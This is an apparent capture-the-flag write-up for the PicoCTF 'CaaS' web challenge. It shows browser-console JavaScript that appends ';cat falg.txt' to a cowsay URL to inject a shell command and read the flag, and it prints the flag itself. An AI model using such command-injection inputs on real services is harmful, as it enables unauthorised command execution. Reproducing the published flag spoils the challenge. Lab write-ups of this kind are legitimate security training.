 # PicoCTF

## Web Exploitation

### CaaS
![image](https://github.com/codegallivant/cryptonite-taskphase/assets/27366422/5fbb2dc5-3a06-4028-a3f3-aa62e80031ec)
<br>
Made an XML HTTP request to the URL.
We can do this inside the console itself.

```javascript
var request = function(message) {
    const xhr = new XMLHttpRequest();
    xhr.open("GET", "https://caas.mars.picoctf.net/cowsay/"+message);
    xhr.send();
    xhr.responseType = "text";
    xhr.onload = () => {
    if (xhr.readyState == 4 && xhr.status == 200) {
        const data = xhr.response;
        console.log(data);
    } else {
        console.log(`Error: ${xhr.status}`);
    }
    };
};

request("somerandommessage")
```
![image](https://github.com/codegallivant/cryptonite-taskphase/assets/27366422/914122ac-6492-43b6-83db-f089519cc5f9)
<br>
The request is visible to be successful with a status 304.
<br>
![image](https://github.com/codegallivant/cryptonite-taskphase/assets/27366422/b1365e04-0da6-4222-8e3a-bf88e1bc9214)
<br>
Amazingly enough, the server is directly executing the text put in the URL. Adding a semicolon at the end of the message text will let me execute a command after it. A snippet from the provided ``index.js`` file -
<br>
![image](https://github.com/codegallivant/cryptonite-taskphase/assets/27366422/f6303078-ba02-4d57-a35c-ff4a2772fdd5)
<br>
I tried making a script to run a command but a CORS policy 'No-Access-Control-Origin' error came. Apparently only requests from the same origin are allowed. So I'll have to continue to use the browser console or just enter the URLs directly.
<br>
I try to see all the files present in the directory -
<br>
![image](https://github.com/codegallivant/cryptonite-taskphase/assets/27366422/ec3d400a-38b2-40d1-a79d-9f6bcb906f42)
<br>
Out of these, only ``falg.txt`` seems to contain the flag present. So I run ``cat falg.txt`` -
<br>
![image](https://github.com/codegallivant/cryptonite-taskphase/assets/27366422/bb9fbe7b-e0dd-4761-8a04-52fcfcf904ba)
<br>
The equivalent of the above would be to execute the following in the console - 
```javascript
var request = function(message) {
    const xhr = new XMLHttpRequest();
    xhr.open("GET", "https://caas.mars.picoctf.net/cowsay/"+message);
    xhr.send();
    xhr.responseType = "text";
    xhr.onload = () => {
    if (xhr.readyState == 4 && xhr.status == 200) {
        const data = xhr.response;
        console.log(data);
    } else {
        console.log(`Error: ${xhr.status}`);
    }
    };
};

request("a;cat falg.txt")
```
![image](https://github.com/codegallivant/cryptonite-taskphase/assets/27366422/e9c02879-017a-4f32-ac4c-f25376ff0a81)
<br>
<br>
**Flag obtained:** ``picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}``

